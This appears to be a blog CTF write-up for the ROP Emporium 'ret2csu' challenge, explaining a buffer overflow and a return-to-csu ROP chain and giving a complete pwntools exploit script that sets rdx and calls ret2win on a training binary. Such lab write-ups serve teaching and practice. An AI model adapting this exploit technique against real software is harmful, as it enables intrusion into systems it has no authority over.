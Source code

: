 ```yaml
---
layout: post
title:  "ret2csu ROPEmporium"
date:   2020-08-24
categories: ctf
description: Ret2csu ROP
tags: ctf-writeup
---
```


## Intro

you can download challenge binary [here](https://ropemporium.com/challenge/ret2csu.html), in this challenge
we have to deal with ret2csu technique in order to solve this challnge, you can read more about ret2csu [here](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)
there is a talk on blackhat asia 2018 about this technique 

[![IMAGE ALT TEXT](http://img.youtube.com/vi/mPbHroMVepM/0.jpg)](http://www.youtube.com/watch?v=mPbHroMVepM "Video Title")

## Reverse Engineering

Information about the elf:

    ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
    dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
    for GNU/Linux 3.2.0, BuildID[sha1]=a799b370a24ba0109f1175f31b3058094b5feab5, 
    not stripped

Binary Protection: 

<img src="/images/ret2csu/protection.png" />

The `main` function is just look simple, puts a string and then call other function called `pwnme`

<img src="/images/ret2csu/main.png" />

the `pwnme` function also look simple, just puts some string, and it will wait for user input 

<img src="/images/ret2csu/pwnme.png" />

we have buffer oveflow inside `pwnme` function

<img src="/images/ret2csu/disas_pwnme.png" />


our goals to get the flag, we have to call `ret2win` function, 
and set `%rdx` register to `0xdeadcafebabebeef`

<img src="/images/ret2csu/ret2win.png" />



## Exploitation

in order to perform ret2csu technique, we have to look at the `__libc_csu_init` function, we can use `0x040089a` 
to pop everything we need

<img src="/images/ret2csu/gadget1.png" />

and we need another gadget from `__libc_csu_init` function, `0x0400880` to set `%r15` register that we can control from
previous gadget to `%rdx` register

<img src="/images/ret2csu/movrdx.png" />

but we have some problem here, we have to deal with 

    00400889  call    qword [r12+rbx*8]

and, we have to set our `%rbp` to `1` so we can pass this test

    0040088d  add     rbx, 0x1
    00400891  cmp     rbp, rbx
    00400894  jne     0x400880

particularly, to avoid sigsev from `call    qword [r12+rbx*8]` we need a pointer to a function, 
and the pointer should point to a function that will not change our `%rdx` register, after the function 
being called we can just call `ret2win` to get the flag, we can use `_init` function because this 
function will not change our `%rdx` register

<img src="/images/ret2csu/init.png" />

and this function also have a pointer

<img src="/images/ret2csu/pointer_init.png">

so we can set `%r12` register to `0x600e38` and then, jump to `ret2win` function
to get the flag, now let's write some python code

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./ret2csu")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)
    rop_csu = 0x040089A
    ret2csu = 0x0400880
    ret2win = 0x04007B1 

    init_pointer = 0x0600E38

    # ret2csu
    p = ''
    p += p.ljust(40, "a")    
    p += p64(rop_csu)
    p += p64(0) # rbx
    p += p64(1) # rbp
    p += p64(init_pointer) # r12
    p += p64(0) # r13 
    p += p64(0) # r14
    p += p64(0xdeadcafebabebeef) # r15
    p += p64(ret2csu)
    p += p64(0) * 7
    p += p64(ret2win)

    r.sendlineafter("\n>",p)

    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("127.0.0.1", 1337)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and run the code

<img src="/images/ret2csu/flag.png"/>

nice, we got the flag.